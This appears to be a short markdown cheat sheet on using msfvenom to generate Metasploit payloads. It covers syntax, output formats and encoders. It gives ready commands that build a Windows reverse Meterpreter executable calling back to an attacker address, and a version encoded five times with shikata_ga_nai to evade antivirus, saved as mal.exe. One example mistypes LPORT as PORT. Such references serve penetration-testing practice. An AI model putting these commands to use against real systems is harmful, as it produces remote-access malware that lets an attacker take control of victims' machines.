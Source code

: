 # Msfvenom

## Payloads 

`List of payloads`

    -l payloads

`Format`

    $ msfvenom –p [ExploitPath] LHOST=[LocalHost (if reverse conn.)] LPORT=[LocalPort] –f [FormatType]

`Example`

Reverse Meterpreter payload as an executable and redirected into a file:

    $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.1.1.1  PORT=4444 –f exe > met.exe


` Format Options (specified with –f)` 

| **Option** | **Description** |
|------------|-----------------|
|`--help-formats` | Print out a summary of the specified options |
|`exe` | Executable |
| `pl` | Perl |
| `rb` | Ruby |
| `raw` | Raw shellcode |
| `c` | C code |

------

## Encoders

`List of encoders`

    -l encoders

    $ msfvenom –p [Payload] -e [Encoder] -f [FormatType (exe, perl, ruby, raw, c)] -i [EncodeInterations] -o [OutputFilename]

`Example`

Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

    $ msfvenom –p windows/meterpreter/reverse_tcp -i 5 -e x86/shikata_ga_nai -f exe -o mal.exe